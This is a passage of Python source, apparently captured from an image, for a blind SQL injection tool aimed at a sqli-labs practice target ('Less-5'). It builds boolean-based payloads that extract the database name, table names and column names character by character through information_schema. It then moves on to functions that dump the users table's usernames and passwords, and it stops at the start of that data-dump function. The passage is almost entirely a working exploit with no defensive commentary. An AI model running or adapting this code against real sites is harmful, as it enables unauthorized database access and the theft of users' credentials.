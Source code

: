 ```python
    '''
    if not url:
        url = "http://192.168.145.129:8888/Less-5/?id=1"
    if func == 'database':
        payload = "' and  (select ascii(substring((select database()),{start},{index}))={asc}) -- "
    elif func == 'table':
        payload = "' and  (select ascii(substring((select group_concat(table_name) from information_schema.tables where table_schema='{args_name}'),{start},{index}))={asc}) -- "
    elif func == 'column':
        payload = "' and  (select ascii(substring((select group_concat(column_name) from information_schema.columns where table_name='{args_name}'),{start},{index}))={asc}) -- "
    else:
        return
    dump_str = ''
    query_len = get_query_len(func, url,args_name=args_name)
    html_len = requests.get(url).headers.get('Content-Length')
    print(html_len)
    asc_list = [44]+[x for x in range(65,91)] + [x for x in range(97,123)]
    for i in range(1,query_len+1):
        for j in asc_list:
            req_len = requests.get(url + payload.format(args_name=args_name, start=i, index='1', asc=str(j))).headers.get('Content-Length')
            print(f'{req_len}   start {i}, index: {j},  {dump_str}')
            if req_len == html_len:
                dump_str += chr(j)

                break
    print(html_len)
    if func == 'database':
        print(f'result:db:  {dump_str}')
    else:
        print(f'result:     {func}:{args_name}:  {dump_str}')
    return dump_str


def sqli_blind_dump_all_schema(url):
    '''
        爆破当前数据库所有结构信息
    :param url:
    :return:
        eg:
            {
            'users':'id,username,password'
            }
    '''
    db_name = blind_injection_structure(func='database', url=url)
    print(f'db:{db_name}')
    tables = blind_injection_structure(func='table', url=url, args_name=db_name)
    print(f'table: {tables}')
    tables = tables.split(',')
    tables = ['users','emails']
    columns = dict()
    for i in tables:
        column = blind_injection_structure(func='column', url=url, args_name=i)
        columns[i] = column
    print(columns)
    return columns


def sqli_blind_dump_data(url,schema={'users':'id,username,password'}):
    '''

    :param url:
```
